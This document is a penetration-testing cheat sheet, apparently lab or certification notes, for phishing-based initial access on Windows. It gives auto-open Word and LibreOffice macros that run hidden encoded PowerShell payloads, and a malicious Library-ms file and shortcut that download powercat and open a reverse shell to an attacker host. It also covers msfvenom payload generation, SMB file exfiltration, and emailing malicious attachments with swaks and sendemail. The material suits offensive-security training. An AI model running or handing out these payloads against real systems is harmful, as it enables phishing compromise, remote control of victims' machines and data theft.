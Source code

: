# Target Reconnaissance
## Information Gathering

- Sweep for files e.g. pdf/ doc with Gobuster pattern
- Read file metadata
  
  ``` exiftool -a -u xxx.pdf ```

# Useful splitter
- Splitter.py 
    ```
        s = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoA7AA=="
        n = 50
        for i in range(0, len(s), n):
            chunk = s[i:i + n]
            print('Str = Str + "' + chunk + '"')
    ```

# Exploit Microsoft Office

## Macro Abuse
- With old .doc file
- macro func must enabled
- windows use utf-16le base64 decode encode
- smbserver to transfer files:
   sometimes anonymous dont work due to policy
   ``` 
   impacket-smbserver -smb2support -username kali -password kali share .
   \\ip-address-of-your-linux-machine\SHARE
   ```
- Advance tech transfer files 
   ```
    net use z: \\192.168.45.243\SHARE /user:kali kali
    Copy-Item -Path 20240728062407_BloodHound.zip -Destination z:\BloodHound.zip
    
    [folder]
    Copy-Item -Path c:\inetpub\wwwroot -Destination z:\files -Recurse

    [if cmd only --> zip file first then] 
    xcopy C:\inetpub.zip Z:\

    ```



- Macro example: 
    ``` 
        Sub AutoOpen()
            MyMacro
        End Sub

        Sub Document_Open()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim Str As String
            
            Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
                Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
                Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
            ...
                Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
                Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
                Str = Str + "A== "

            CreateObject("Wscript.Shell").Run Str
        End Sub
    ``` 

- useful post-exploit file transfer: https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/ 

## Execution vis Windows Library Files
- create a folder for this
1. Prepare Send email to victim containing 'config.Library-ms' which direct to malicious wsgidev 
    ``` 
    wsgidav --host=0.0.0.0 --port 80 --auth=anonymous --root /home/kali/webdav/
    ```

2. Edit IP variable to our kali and save as 'config.Library-ms' (extension = all files) then double click the file and copy paste itself into the folder
    ```
        <?xml version="1.0" encoding="UTF-8"?>
        <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
        <name>@windows.storage.dll,-34582</name>
        <version>6</version>
        <isLibraryPinned>true</isLibraryPinned>
        <iconReference>imageres.dll,-1003</iconReference>
        <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
        </templateInfo>
        <searchConnectorDescriptionList>
        <searchConnectorDescription>
        <isDefaultSaveLocation>true</isDefaultSaveLocation>
        <isSupported>false</isSupported>
        <simpleLocation>
        <url>http://192.168.119.2</url>
        </simpleLocation>
        </searchConnectorDescription>
        </searchConnectorDescriptionList>
        </libraryDescription>
    ```
3. edit the .ink file (shortcut) to run reverse shell & change the file name to install
    ``` 
        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
        powercat -c 192.168.119.3 -p 4444 -e powershell"
    ```
4. Prepare web server hosting powercat file
   ``` 
    cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
    python3 -m http.server 8000
    ```
MUST USE non 80 port!!

## SMTP tool
Send email with given information e.g. receiver/sender, smtp server usrname pw
- SWAKS
  ``` sudo swaks -t dave.wizard@supermagicorg.com --from test@supermagicorg.com -ap --attach @config.Library-ms --server 192.168.151.199 --body body.txt --header "Subject: Problems" --suppress-data ```
- sendemail
    ``` sendemail -f 'jonas@localhost' \
        -t 'mailadmin@localhost' \
        -s 192.168.244.140:25 \
        -u 'a spreadsheet' \
        -m 'Please check this spreadsheet' \
        -a exploit.ods 
    ```


## Exploit Libre Office
1. Prepare payload ``` msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=4444 -f hta-psh -o evil.hta ```
2. Split the file
3. open new .ods file and add macro under the file
   ```
    Sub Macro 
    Dim Str as String
    Str = Str + "cmd /c powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
    Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
    Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
...
    Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
    Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
    Str = Str + "A== "
    Shell(Str)

   ```
4. Enable auto-run once this excel is open: Tools → Customize